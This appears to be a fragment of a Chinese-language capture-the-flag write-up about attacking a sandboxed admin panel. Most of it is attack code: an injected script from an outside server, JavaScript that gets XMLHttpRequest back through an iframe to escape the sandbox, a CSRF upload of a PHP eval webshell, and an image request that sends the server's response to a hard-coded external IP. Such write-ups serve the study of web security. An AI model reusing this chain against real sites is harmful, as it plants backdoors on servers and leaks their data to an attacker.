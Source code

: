 可以获得管理员页面代码

```html
<!doctype html>
<head>
<title>Admin Panel</title>
<script>
//sandbox
delete window.Function;
delete window.eval;
delete window.alert;
delete window.XMLHttpRequest;
delete window.Proxy;
delete window.Image;
delete window.postMessage;
</script>
</head>

<h1>Hello <iframe id="sandbox"></iframe><script src=//vps-ip/xss/test.js></script>testxss</h1>


<p>Upload your shell</p>
<form action="/upload" method="post" enctype="multipart/form-data">
<p><input type="file" name="file"></input></p>
<p><input type="submit" value="upload">
</form>
```

这个上传功能，就需要csrf，不过由于页面上的XHR被禁用，所以得额外调用出来

test.js

```js
window.XMLHttpRequest = document.getElementById('sandbox').contentWindow.XMLHttpRequest;
var xhr = new XMLHttpRequest();

xhr.onreadystatechange=function(){
    if(xhr.readyState==4){
        //if(xhr.status==200){
        res_status = "status: " + xhr.status + "\n";
        data = xhr.responseText;
        imgsrc=document.createElement("img");
        imgsrc.src = "http://121.42.175.111:8080/xss/xss_new.php?cookie=" + escape(res_status) + escape(data);
        //}
    }
};

var formData = new FormData();
var content = '<?php @eval($_POST[c][/c]);?>';
var blob = new Blob([content], { type: "text/plain"});
formData.append("file", blob,'angelwhutestshell.php');
xhr.open("POST", "/upload");
xhr.send(formData);
```
